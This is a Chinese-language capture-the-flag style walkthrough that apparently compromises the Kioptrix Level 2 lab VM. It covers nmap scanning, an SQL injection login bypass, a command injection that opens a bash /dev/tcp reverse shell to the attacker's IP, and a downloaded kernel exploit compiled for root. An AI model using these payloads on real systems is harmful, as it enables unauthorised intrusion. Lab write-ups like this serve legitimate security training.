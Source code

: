 ### 端口扫描

```bash
nmap -sT -T4 -p- 192.168.217.140
```

```
PORT     STATE SERVICE
22/tcp   open  ssh
80/tcp   open  http
111/tcp  open  rpcbind
443/tcp  open  https
631/tcp  open  ipp
658/tcp  open  tenfold
3306/tcp open  mysql
MAC Address: 00:0C:29:25:AF:96 (VMware)
```

```bash
nmap -sT -sV -sC -O -p22,80,111,443,631,658,3306 192.168.217.140
```

```
PORT     STATE SERVICE  VERSION
22/tcp   open  ssh      OpenSSH 3.9p1 (protocol 1.99)
|_sshv1: Server supports SSHv1
| ssh-hostkey: 
|   1024 8f:3e:8b:1e:58:63:fe:cf:27:a3:18:09:3b:52:cf:72 (RSA1)
|   1024 34:6b:45:3d:ba:ce:ca:b2:53:55:ef:1e:43:70:38:36 (DSA)
|_  1024 68:4d:8c:bb:b6:5a:bd:79:71:b8:71:47:ea:00:42:61 (RSA)
80/tcp   open  http     Apache httpd 2.0.52 ((CentOS))
|_http-title: Site doesn't have a title (text/html; charset=UTF-8).
|_http-server-header: Apache/2.0.52 (CentOS)
111/tcp  open  rpcbind  2 (RPC #100000)
| rpcinfo: 
|   program version    port/proto  service
|   100000  2            111/tcp   rpcbind
|   100000  2            111/udp   rpcbind
|   100024  1            655/udp   status
|_  100024  1            658/tcp   status
443/tcp  open  ssl/http Apache httpd 2.0.52 ((CentOS))
| sslv2: 
|   SSLv2 supported
|   ciphers: 
|     SSL2_DES_64_CBC_WITH_MD5
|     SSL2_RC4_128_WITH_MD5
|     SSL2_RC2_128_CBC_EXPORT40_WITH_MD5
|     SSL2_RC4_64_WITH_MD5
|     SSL2_DES_192_EDE3_CBC_WITH_MD5
|     SSL2_RC4_128_EXPORT40_WITH_MD5
|_    SSL2_RC2_128_CBC_WITH_MD5
|_http-server-header: Apache/2.0.52 (CentOS)
| ssl-cert: Subject: commonName=localhost.localdomain/organizationName=SomeOrganization/stateOrProvinceName=SomeState/countryName=--
| Not valid before: 2009-10-08T00:10:47
|_Not valid after:  2010-10-08T00:10:47
|_ssl-date: 2024-11-04T10:43:17+00:00; -2h09m44s from scanner time.
|_http-title: Site doesn't have a title (text/html; charset=UTF-8).
631/tcp  open  ipp      CUPS 1.1
|_http-title: 403 Forbidden
|_http-server-header: CUPS/1.1
| http-methods: 
|_  Potentially risky methods: PUT
658/tcp  open  status   1 (RPC #100024)
3306/tcp open  mysql    MySQL (unauthorized)
MAC Address: 00:0C:29:25:AF:96 (VMware)
Warning: OSScan results may be unreliable because we could not find at least 1 open and 1 closed port
Device type: general purpose
Running: Linux 2.6.X
OS CPE: cpe:/o:linux:linux_kernel:2.6
OS details: Linux 2.6.9 - 2.6.30
Network Distance: 1 hop
```

```bash
nmap --script=vuln -p80,111,443,631,658,3306 192.168.217.140
```

### web渗透

一个登录框，结合上面扫到的3306端口，可以测试万能密码

`1' or 1=1#`

成功登录

![image-20241105134558773](https://dabai1-1316520326.cos.ap-shanghai.myqcloud.com/img/image-20241105134558773.png)

可以进行命令注入

`;bash -i >& /dev/tcp/192.168.217.139/1234 0>&1`

### 内核提权

常规提权方法，没发现什么利用点

尝试内核提权

```bash
bash-3.00$ cat /etc/*release
CentOS release 4.5 (Final)
bash-3.00$ uname -a
Linux kioptrix.level2 2.6.9-55.EL #1 Wed May 2 13:52:16 EDT 2007 i686 i686 i386 GNU/Linux
```

搜索漏洞

```
searchsploit linux kernel 2.6 centos
```

![image-20241105135237085](https://dabai1-1316520326.cos.ap-shanghai.myqcloud.com/img/image-20241105135237085.png)

```bash
python3 -m http.server 8888
wget http://192.168.217.139:8888/9542.c
```

下载到靶机，进行编译

```
gcc 9542.c -o exp
```

```bash
bash-3.00$ ./exp
sh: no job control in this shell
sh-3.00# whoami
root
```

